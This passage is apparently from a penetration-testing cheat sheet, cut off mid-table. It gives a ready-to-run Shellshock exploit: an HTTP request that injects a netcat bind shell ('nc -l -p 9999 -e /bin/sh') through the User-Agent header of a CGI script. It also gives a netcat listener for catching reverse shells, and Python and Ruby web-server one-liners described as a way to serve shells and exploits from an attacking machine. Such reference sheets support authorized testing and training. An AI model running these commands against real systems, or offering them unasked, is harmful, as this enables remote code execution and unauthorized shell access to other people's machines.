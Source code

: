 ##### Shell Shock run bind shell
```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
```

##### Shell Shock reverse Shell
```
nc -l -p 443
```



## Simple Local Web Servers

Python local web server command, handy for serving up shells and exploits on an attacking machine.

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
   <tbody>

    <tr>
      <td>
        <p><code>python -m SimpleHTTPServer 80</code></p>
      </td>
      <td>
            <p>Run a basic http server, great for serving up shells etc</p>
      </td>
    </tr>

        <tr>
      <td>
        <p><code>python3 -m http.server</code></p>
      </td>
      <td>
            <p>Run a basic Python3 http server, great for serving up shells etc</p>
      </td>
    </tr>

        <tr>
      <td>
        <p><code>ruby -rwebrick -e "WEBrick::HTTPServer.new<br>(:Port => 80, :DocumentRoot => Dir.pwd).start"</code></p>
      </td>
      <td>
            <p>Run a ruby webrick basic http server</p>
      </td>
    </tr>

